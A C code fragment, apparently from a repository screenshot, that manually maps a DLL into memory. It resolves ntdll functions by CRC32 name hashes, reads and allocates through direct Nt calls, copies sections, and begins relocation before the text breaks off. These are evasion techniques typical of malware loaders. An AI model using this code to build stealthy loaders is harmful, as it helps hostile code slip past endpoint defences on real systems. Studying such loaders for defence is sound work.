 ```c
    void *p_nt_read_file = get_proc_address_by_hash(p_ntdll, NtReadFile_CRC32b);
    NtReadFile_t g_nt_read_file = (NtReadFile_t)p_nt_read_file;
    if((status = g_nt_read_file(h_file, NULL, NULL, NULL, &io_status_block, dll_bytes, dll_size, 0, NULL)) != 0x0)
        return -4;

    PIMAGE_DOS_HEADER dos_header = (PIMAGE_DOS_HEADER)dll_bytes;
    PIMAGE_NT_HEADERS nt_headers = (PIMAGE_NT_HEADERS)((unsigned long long int)dll_bytes + dos_header->e_lfanew);
    SIZE_T dll_image_size = nt_headers->OptionalHeader.SizeOfImage;

    void *dll_base = NULL;
    if((status = g_nt_allocate_virtual_memory(NtCurrentProcess(), &dll_base, 0, &dll_image_size, MEM_COMMIT, PAGE_READWRITE)) != 0x0)
        return -4;

    unsigned long long int delta_image_base = (unsigned long long int)dll_base - (unsigned long long int)nt_headers->OptionalHeader.ImageBase;
    memcpy(dll_base, dll_bytes, nt_headers->OptionalHeader.SizeOfHeaders);

    PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(nt_headers);
    for(size_t i = 0; i < nt_headers->FileHeader.NumberOfSections; i++) {
        void *section_destination = (LPVOID)((unsigned long long int)dll_base + (unsigned long long int)section->VirtualAddress);
        void *section_bytes = (LPVOID)((unsigned long long int)dll_bytes + (unsigned long long int)section->PointerToRawData);
        memcpy(section_destination, section_bytes, section->SizeOfRawData);
        section++;
    }

    IMAGE_DATA_DIRECTORY relocations = nt_headers->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
    unsigned long long int relocation_table = relocations.VirtualAddress + (unsigned long long int)dll_base;
    unsigned long relocations_processed = 0;

    while(relocations_processed < relocations.Size) {
        PBASE_RELOCATION_BLOCK relocation_block = (PBASE_RELOCATION_BLOCK)(relocation_table + relocations_processed);
        relocations_processed += sizeof(BASE_RELOCATION_BLOCK);
        unsigned long relocations_count = (relocation_block->BlockSize - sizeof(BASE_RELOCATION_BLOCK)) / sizeof(BASE_RELOCATION_ENTRY);
        PBASE_RELOCATION_ENTRY relocation_entries = (PBASE_RELOCATION_ENTRY)(relocation_table + relocations_processed);

        for(unsigned long i = 0; i < relocations_count; i++) {
            relocations_processed += sizeof(BASE_RELOCATION_ENTRY);
            if(relocation_entries[i].Type == 0)
                continue;

            unsigned long long int relocation_rva = relocation_block->PageAddress + relocation_entries[i].Offset;
            unsigned long long int address_to_patch = 0;
            void *p_nt_read_virtual_memory = get_proc_address_by_hash(p_ntdll, NtReadVirtualMemory_CRC32b);
            NtReadVirtualMemory_t g_nt_read_virtual_memory = (NtReadVirtualMemory_t)p_nt_read_virtual_memory;
            if((status = g_nt_read_virtual_memory(NtCurrentProcess(), (void *)((unsigned long long int)dll_base + relocation_rva), &address_to_patch, sizeof(unsigned long long int), NULL)) != 0x0)
                return -5;

            address_to_patch += delta_image_base;
```
